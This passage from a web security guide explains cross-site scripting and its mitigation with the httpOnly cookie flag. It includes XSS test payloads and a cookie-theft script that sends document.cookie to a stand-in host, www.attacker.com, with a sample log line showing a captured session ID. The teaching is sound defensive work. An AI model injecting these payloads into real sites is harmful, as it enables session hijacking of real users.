 During the second half of 2007, there were 88 vulnerabilities reported in Mozilla browsers, 22 in Safari, 18 in IE, and 12 in Opera. The Symantec Global Internet Security threat report also documented 239 browser plug-in vulnerabilities in the last six months of 2007. [Mpack](https://www.pandasecurity.com/en/mediacenter/malware/mpack-uncovered/) is a very active and up-to-date attack framework which exploits these vulnerabilities. For criminal hackers, it is very attractive to exploit an SQL injection vulnerability in a web application framework and insert malicious code in every textual table column. In April 2008 more than 510,000 sites were hacked like this, among them the British government, United Nations, and many more high-profile targets.

#### HTML/JavaScript Injection

The most common XSS language is of course the most popular client-side scripting language JavaScript, often in combination with HTML. _Escaping user input is essential_.

Here is the most straightforward test to check for XSS:

```html
<script>alert('Hello');</script>
```

This JavaScript code will simply display an alert box. The next examples do exactly the same, only in very uncommon places:

```html
<img src="javascript:alert('Hello')">
<table background="javascript:alert('Hello')">
```

##### Cookie Theft

These examples don't do any harm so far, so let's see how an attacker can steal the user's cookie (and thus hijack the user's session). In JavaScript you can use the `document.cookie` property to read and write the document's cookie. JavaScript enforces the same origin policy, that means a script from one domain cannot access cookies of another domain. The `document.cookie` property holds the cookie of the originating web server. However, you can read and write this property, if you embed the code directly in the HTML document (as it happens with XSS). Inject this anywhere in your web application to see your own cookie on the result page:

```html
<script>document.write(document.cookie);</script>
```

For an attacker, of course, this is not useful, as the victim will see their own cookie. The next example will try to load an image from the URL http://www.attacker.com/ plus the cookie. Of course this URL does not exist, so the browser displays nothing. But the attacker can review their web server's access log files to see the victim's cookie.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

The log files on www.attacker.com will read like this:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

You can mitigate these attacks (in the obvious way) by adding the **httpOnly** flag to cookies, so that `document.cookie` may not be read by JavaScript. HTTP only cookies can be used from IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4, and Chrome 1.0.154 onwards. But other, older browsers (such as WebTV and IE 5.5 on Mac) can actually cause the page to fail to load. Be warned that cookies [will still be visible using Ajax](https://owasp.org/www-community/HttpOnly#browsers-supporting-httponly), though.
